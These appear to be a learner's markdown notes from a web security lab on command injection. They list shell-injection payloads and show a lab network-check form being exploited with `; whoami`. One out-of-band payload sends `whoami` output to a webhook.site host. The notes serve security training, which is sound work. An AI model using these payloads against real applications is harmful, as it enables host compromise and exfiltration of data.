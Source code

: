 
### Command Injection
<span style="background:#fff88f">serious vuln:</span>
bc if you find it => you can:
                  - <span style="color:#00b050">compromise the entire app</span>
                  - <span style="color:#00b050">compromise the host</span> 
how it works:
- the app takes an input from the user
- pass that into a -->  function 
- the function --> executes it as code

#### Basic - 0x01
- open the first lab
- we have a network check:
	- if we type an URL we get:
		- the command that the site executes
		- the result
		- ![[Pasted image 20240308114321.png]]

- open the [[cheat#AppSecExplained|App Sec explained]] -->  and check for Injection > Command Injection

##### Basic command
<span style="background:#fff88f">basic command injection:</span>
`; ls -la`
`&& ls -la`
`; ls -la #`
`| ls -la`
`' or 1=1-- -`
```bash
; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &
```

```bash
& nslookup webhook.site/<id>?`whoami` &     -->  out of band testing
```

=>
let's try the first one
`https://google.com; whoami`
![[Pasted image 20240308120816.png]]
=>
the command that is executed is -->  `curl -I -s -L https://google.com; whoami | grep "HTTP/"`
=>
let's try to:
- don't use the URL 
- grep command fails

=>
`; whoami; asd`
![[Pasted image 20240308121011.png]]
<span style="color:#00b050">it works</span> 
